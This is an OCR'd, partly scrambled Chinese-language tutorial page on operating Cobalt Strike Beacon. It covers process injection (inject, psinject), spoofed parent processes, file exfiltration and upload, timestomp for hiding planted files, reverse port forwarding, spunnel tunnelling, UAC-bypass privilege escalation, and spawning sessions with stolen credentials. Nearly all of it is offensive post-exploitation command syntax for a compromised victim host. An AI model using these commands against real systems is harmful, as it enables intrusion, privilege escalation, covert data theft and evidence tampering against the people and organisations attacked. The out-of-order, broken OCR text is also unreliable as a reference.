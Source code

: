 注入成功会返回一个新的会话
2.使用inject，后面接进程ID和侦听器名称，以将会话注入到特定进程中。
1.使用ps获取当前系统上的进程列表。
2.使用inject [pid] x64将64位信标注入到x64进程中。也可以注入x86中
3.设置监听器
4.注入成功，返回一个新的shell
一个利用手法：
受害系统上的任何进程下执行Powershell脚本。
1 psinject 【pid】[ ps1]
绿色突出显示的是在注入powershell脚本时在目标进程中打开的新句柄：
spawn和inject命令都将有效载荷阶段注入到内存中。如果有效负载阶段是HTTP，
HTTPS或DNS信标，并且它无法到达CS-我们将看不到会话。如果有效负载阶段是绑定
TCP或SMB信标，则这些命令将自动尝试链接并承担对这些有效负载的控制。
8.Runu允许我们从指定的父进程启动新进程：
8.Upload and Download Files
下载download
runu [pid] 新进程
download [目标文件目录]
1
1
信标是为低速和慢速数据泄露而构建的。在每次签入过程中，Beacon会下载任务指定要
获取的每个文件的固定块。该块的大小取决于信标的当前数据通道。HTTP和HTTPS通
道以512KB的块形式提取数据。
转到查看-> Cobalt Strike中的下载，以查看您的团队到目前为止已下载的文件。此选项
卡中仅显示完成的下载。下载的文件存储在团队服务器上。要将文件带回系统，请在此
处突出显示它们，然后按Sync Files。然后，Cobalt Strike将选择的文件下载到系统上您
选择的文件夹中。
上传文件upload
1 upload [/path/to/file]
上传文件时，有时会需要更新其时间戳，以使其与同一文件夹中的其他文件融合。
可以使用timestomp命令执行此操作。
timestomp命令会将一个文件的“修改”，“访问”和“创建”时间与另一个文件进行匹配。
9.文件系统命令
使用ls命令列出当前目录中的文件。使用mkdir创建目录。rm将删除文件或文件夹。cp将
文件复制到目标位置。mv移动文件。
10.反向枢轴
端口停止【绑定端口】
在目标主机上绑定指定的端口。当连接进来时，CobaltStrike将连接到转发的主机/端口并
使用Beacon在两个连接之间中继通信。
使用rportfwd stop [bind port]禁用反向端口转发。
11.生成和隧道
使用spunnel命令可在临时过程中生成第三方工具，并为其创建反向端口。
该命令期望代理文件是与位置无关的shellcode（通常是来自另一个攻击平台的原始输
出）。该spunnel_local命令是一样的spunnel，除了它开始从你的cs客户端控制器连接。
timestomp [fileA] [fileB]
使用：rportfwd [绑定端口] [转发主机] [转发端口]
语法为spunnel [x86或x64] [controller host] [controller port] [/path/to/agent.
1
1
1
通过Cobalt Strike客户端与其团队服务器之间的连接来通信spunnel_local通信。
12.特权提升
利用漏洞提升
输入elevate命令以列出在Cobalt Strike中注册的特权升级漏洞。
成功之后会反弹新的会话回来
单独使用runasadmin命令可以列出在Cobalt Strike中的漏洞。
1 运行elevate [exploit] [listener]尝试提升特定的利用。
运行runasadmin [exploit] [command + args]尝试bypassUac提权。
使用已知凭证提升
使用runas [DOMAIN \ user] [password] [command]以其他用户的身份运行命令。
runas命令将不返回任何输出。
这里给个手法：可以使用poweshell 远程执行上线
使用spawnas [DOMAIN \ user] [password] [listener]使用其凭据以另一个用户的身份生成
会话。此命令产生一个临时进程，并将我们的有效负载阶段注入进程中。